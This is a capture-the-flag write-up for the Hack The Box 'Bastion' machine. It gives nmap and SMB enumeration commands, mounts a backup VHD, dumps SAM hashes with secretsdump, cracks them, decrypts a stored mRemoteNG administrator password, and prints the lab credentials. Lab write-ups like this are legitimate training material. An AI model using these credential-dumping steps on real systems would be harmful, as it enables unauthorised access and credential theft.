

# [Bastion](https://app.hackthebox.com/machines/bastion)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.134 -Pn
```




After knowing open ports(22,135,139,445), we can do greater nmap sacn for these ports.

```bash
nmap -A -sC -sV -p22,135,139,445 10.10.10.134 -Pn
```


Let's enumerate SMB via `smbmap` command.

```bash
smbmap -H 10.10.10.134
```

This doesn't work, that's why I need to write username via '**guest**' field.

```bash
smbmap -H 10.10.10.134 -u guest
```


Let's connnect 'Backups' share via `smbclient` tool.

```bash
smbclient -N //10.10.10.134/backups 
```


To see everything from share, let's mount all of them.

```bash
mount -t cifs //10.10.10.134/backups /home/kali/Desktop/backups -o user=guest
```


Let's look at 'backups' folder on our desktop. First, we search files via `find` command.

```bash
find /home/kali/Desktop/backups -type f
```


Here, I see two **disk image**`.vhd` files.


To see this files what inside of this, I just find this [link](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25).

Let's do this via `guestmount` command .

```bash
guestmount --add /home/kali/Desktop/backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /home/kali/Desktop/vh2 -v
```


Here, I dumped all data as you see below.


Now, I need to dump password of user, for this I need to get SAM table of this machine, I use this [link](https://www.hackingarticles.in/credential-dumping-sam/)


As default, 'SAM' and 'SYSTEM' files are located on this location 'Windows/System32/config'.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam /home/kali/Desktop/vh2/Windows/System32/config/SAM -system /home/kali/Desktop/vh2/Windows/System32/config/SYSTEM LOCAL
```


Let's take NTLM hash of 'L4mpje' user and crack on [Crackstation](https://crackstation.net/)


We have below valid credentials.

L4mpje:bureaulampje


user.txt


I just start to enumerate Windows machine for the whole, I found 'mRemoteNG' folder on C:\Program Files (x86)


Then, again I searched machine, found xml file (**confCons**.xml) which has password hash of 'Administrator' user.

It is located on "C:\Users\L4mpje\AppData\Roaming\mRemoteNG\"


Here's what, let's try to decrypt this.


I find such [script](https://github.com/haseebT/mRemoteNG-Decrypt) on Github.


Password of administrator is 'thXLHM96BeKL0ER2'.

administrator: thXLHM96BeKL0ER2


After we have valid credentials, we can login.


root.txt


## REMINDER
I know that a lot of you have problem about after CTF that deleting mounted folder. For this you need to below steps. (mount command consequences)

```bash
fuser -m [mount_location] # it returns process id
kill -9 [process_id]
umount [mount_location]
```


For (guestmount command consequences) , you need to below ones.

```bash
fusermount -u [guestmount_location]
rmdir [guestmount_location]
```